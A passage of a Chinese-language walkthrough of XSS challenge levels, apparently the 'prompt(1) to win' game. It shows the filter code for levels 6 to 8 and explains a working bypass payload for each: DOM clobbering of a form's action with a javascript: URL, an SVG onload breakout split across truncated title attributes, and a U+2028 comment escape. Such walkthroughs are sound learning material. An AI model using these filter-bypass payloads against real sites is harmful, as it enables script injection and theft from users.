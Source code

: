 ```
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}     
```
看源码可以知道，大概就是由#分割，我们在这里用js伪协议。我们可以创建自已的输入，这些输入可以破坏窗体的action属性，由于DOM破坏，docnment.forms[0].action将返回我们新键的输入字段而不是实际的action属性，因此可以执行javacript。
* payload:
`javascript:prompt(1)#{"action":1}`
## 第7关
```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
} 
```
这题也是用#分割，每一步分给一个title，如果超过12个字符，就截取前12个。
* payload:
`"><svg/a=#"onload='/*#*/prompt(1)'`
## 第8关
```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}    
```
这题没有复现成功，查了下资料，看源码过滤了\r\n</"，返回了//console.log("input")，所以要绕过过滤和注释符。
* payload:
`[u+2028]prompt(1)[u+2028]-->`
这里过滤了两个换行符，要用到一个特殊的编码技巧：
